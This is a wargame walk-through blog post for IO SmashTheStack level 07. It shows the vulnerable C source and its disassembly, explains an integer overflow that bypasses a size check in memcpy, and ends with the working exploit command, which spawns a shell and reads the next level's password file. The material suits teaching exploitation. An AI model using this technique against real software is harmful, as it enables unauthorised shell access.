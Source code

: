 +++
title = "IO Smash the stack level 07"
date = "2016-01-28T21:54:00-02:00"
publishdate = "2016-01-28"
categories =["Security"]
tags = ["Wargames", "C"]
slug = "io-smashthestack-level-07"
project_url = "https://greyhat.dk/io-smashthestack-level-07"
type = "post"
description = "Walk-through"
+++

## Level07

level7@io:/levels$ cat level07.c
```c
//written by bla
#include <stdio.h>
#include <string.h>
#include <unistd.h>



int main(int argc, char **argv)
{

        int count = atoi(argv[1]);
        int buf[10];

        if(count >= 10 )
                return 1;


        memcpy(buf, argv[2], count * sizeof(int));

        if(count == 0x574f4c46) {
		printf("WIN!\n");
                execl("/bin/sh", "sh" ,NULL);
	} else
                printf("Not today son\n");


        return 0;
}
```

Oki so count has to be 10 or less to invoke the memcpy but in order to get a shell count has to be 0x574f4c46 (1464814662). So we need to overflow the stack to overwrite count but since we can only specify a negative number we need to make an integer overflow.


```sh
level7@io:/levels$ gdb -q ./level07
Reading symbols from /levels/level07...done.
(gdb) disassemble main
Dump of assembler code for function main:
   0x08048414 <+0>:	push   %ebp
   0x08048415 <+1>:	mov    %esp,%ebp
   0x08048417 <+3>:	sub    $0x68,%esp
   0x0804841a <+6>:	and    $0xfffffff0,%esp
   0x0804841d <+9>:	mov    $0x0,%eax
   0x08048422 <+14>:	sub    %eax,%esp
   0x08048424 <+16>:	mov    0xc(%ebp),%eax
   0x08048427 <+19>:	add    $0x4,%eax
   0x0804842a <+22>:	mov    (%eax),%eax
   0x0804842c <+24>:	mov    %eax,(%esp)
   0x0804842f <+27>:	call   0x8048354 <atoi@plt>
   0x08048434 <+32>:	mov    %eax,-0xc(%ebp)
   0x08048437 <+35>:	cmpl   $0x9,-0xc(%ebp)
   0x0804843b <+39>:	jle    0x8048446 <main+50>
   0x0804843d <+41>:	movl   $0x1,-0x4c(%ebp)
   0x08048444 <+48>:	jmp    0x80484ad <main+153>
   0x08048446 <+50>:	mov    -0xc(%ebp),%eax
   0x08048449 <+53>:	shl    $0x2,%eax
   0x0804844c <+56>:	mov    %eax,0x8(%esp)
   0x08048450 <+60>:	mov    0xc(%ebp),%eax
   0x08048453 <+63>:	add    $0x8,%eax
   0x08048456 <+66>:	mov    (%eax),%eax
   0x08048458 <+68>:	mov    %eax,0x4(%esp)
   0x0804845c <+72>:	lea    -0x48(%ebp),%eax    <--- load buf
   0x0804845f <+75>:	mov    %eax,(%esp)
   0x08048462 <+78>:	call   0x8048334 <memcpy@plt>
   0x08048467 <+83>:	cmpl   $0x574f4c46,-0xc(%ebp)
   0x0804846e <+90>:	jne    0x804849a <main+134>
   0x08048470 <+92>:	movl   $0x8048584,(%esp)
   0x08048477 <+99>:	call   0x8048344 <printf@plt>
   0x0804847c <+104>:	movl   $0x0,0x8(%esp)
   0x08048484 <+112>:	movl   $0x804858a,0x4(%esp)
   0x0804848c <+120>:	movl   $0x804858d,(%esp)
   0x08048493 <+127>:	call   0x8048324 <execl@plt>
   0x08048498 <+132>:	jmp    0x80484a6 <main+146>
   0x0804849a <+134>:	movl   $0x8048595,(%esp)
   0x080484a1 <+141>:	call   0x8048344 <printf@plt>
   0x080484a6 <+146>:	movl   $0x0,-0x4c(%ebp)
   0x080484ad <+153>:	mov    -0x4c(%ebp),%eax
   0x080484b0 <+156>:	leave
   0x080484b1 <+157>:	ret
End of assembler dump.
(gdb) !echo "ibase=16;48"|bc
72
```

Ok we need to find an integer overflow that gives us a buffer of 72 or more. For this I wrote a small test in C. Remember that

Maximum int 2^32

Minimum int -2^31

and I assume that the size of int is 4 bytes

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv)
{
 int a = atoi(argv[1]);

 printf("%d and len %d\n", a, a*sizeof(int));

 return 0;
}
```

```sh
kgn@kali:~$ ./intoverflow $(echo "(-2^31)+(72/4)"|bc)
-2147483630 and len 72
```

Back to GDB

```sh
(gdb) r $(echo "(-2^31)+(72/4)"|bc) $(python -c 'print "\x46\x4c\x4f\x57" * (72/4)')
Starting program: /levels/level07 $(echo "(-2^31)+(72/4)"|bc) $(python -c 'print "\x46\x4c\x4f\x57" * (72/4)')
WIN!
process 1800 is executing new program: /bin/bash
sh-4.2$
```

Outside GDB

```sh
level7@io:/levels$ ./level07 $(echo "(-2^31)+(72/4)"|bc) $(python -c 'print "\x46\x4c\x4f\x57" * (72/4)')
WIN!
sh-4.2$ cat /home/level8/.pass
XXXXXXXXXXXXXXXX
```
